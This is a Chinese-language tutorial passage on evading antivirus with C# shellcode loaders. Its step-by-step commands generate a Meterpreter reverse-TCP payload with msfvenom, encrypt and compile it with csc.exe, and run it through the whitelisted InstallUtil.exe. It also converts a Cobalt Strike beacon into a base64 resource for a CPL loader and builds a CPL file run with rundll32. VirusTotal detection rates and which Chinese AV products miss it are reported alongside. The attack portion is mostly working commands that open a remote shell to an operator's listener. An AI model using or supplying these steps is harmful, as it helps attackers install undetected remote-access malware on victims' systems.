


# 3 加载器加载C#代码

加载器用的比较多的是CSC.exe+InstallUtil.exe加载shellcode，流程为：msf生成C#格式shellcode -> 加密shellcode -> 解密并加载shellcode -> csc.exe编译成.jpg文件 -> InstallUtil.exe白名单执行。之前backlion师傅和亮神都介绍过这种方法。

# 3.1 法4：使用CSC+InstallUtil执行shellcode(VT免杀率33/71)

先通过msfvenom生成C＃的shellcode
```
msfvenom -p  windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=10.211.55.2 lport=3333 -f csharp
```


下载InstallUtil-Shellcode.cs

`wget https://raw.githubusercontent.com/TideSec/BypassAntiVirus/master/tools/InstallUtil-Shellcode.cs`

将上面生成的shellcode复制到`InstallUtil-Shellcode.cs`文件中。


使用csc编译InstallUtil-ShellCode.cs
```
C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe /unsafe /platform:x86 /out:C:\test\shell.exe C:\test\InstallUtil-ShellCode.cs
```

编译生成的shell.exe直接执行是不行的，需要使用InstallUtil.exe来触发。

使用InstallUtil.exe执行shell.exe，360安全卫士会检测到InstallUtil.exe执行预警，360杀毒和火绒动态和静态均无预警。

```
C:\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /logfile= /LogToConsole=false /U C:\test\shell.exe
```



msf中可上线



virustotal.com中shell.exe文件33/71个报病毒，这个有点出乎意料。




# 3.2 法5：从资源里加载shelllcode

这里只介绍另外一种从资源里加载shelllcode的方法，不过很遗憾的是这个我没有复现成功。


参考自三好学生大佬的文章:`https://wooyun.js.org/drops/CPL%E6%96%87%E4%BB%B6%E5%88%A9%E7%94%A8%E4%BB%8B%E7%BB%8D.html`

需要用到这个工具`https://github.com/rvrsh3ll/CPLResourceRunner`

先用Cobalt Strike 生成shellcode

```
Attacks -> Packages -> Windows Executable (s) -> Output => RAW (x86)
```



然后用`ConvertShellcode.py`将生成的`beacon.bin`转换成`shellcode.txt`

```
python ConvertShellcode.py beacon.bin
```

然后再转换成base64编码。

```
cat shellcode.txt |sed 's/[, ]//g; s/0x//g;' |tr -d '\n' |xxd -p -r |gzip -c |base64 > b64shellcode.txt
```



把生成的base64编码的shellcode复制到项目资源`CPLResourceRunner/Resources.txt`里。

编译生成dll，并将生成的`CPLResourceRunner.dll`重命名为`.cpl`文件，之后执行即可。



不过经过测试，无法上线，没找出来具体原因。

后来用msf生成raw格式的shellcode，也用`CPLResourceRunner`进行处理，不过还是没法上线。

后来又测试了一下使用msf直接生成cpl文件，倒可以执行上线，使用rundll32.exe来执行。

```
msfvenom -p  windows/meterpreter/reverse_tcp lhost=10.211.55.2 lport=3333  -f dll  > shellcode.cpl
```




# 4 参考资料

shellcode加载总结:`https://uknowsec.cn/posts/notes/shellcode%E5%8A%A0%E8%BD%BD%E6%80%BB%E7%BB%93.html`

记一则免杀技巧:`https://www.jianshu.com/p/965211afc5f9`

那些shellcode免杀总结：`https://xz.aliyun.com/t/7170`

免杀技巧:`https://blog.moofeng.cn/2019/04/18/%E8%AE%B0%E4%B8%80%E5%88%99%E5%85%8D%E6%9D%80%E6%8A%80%E5%B7%A7/index.html`  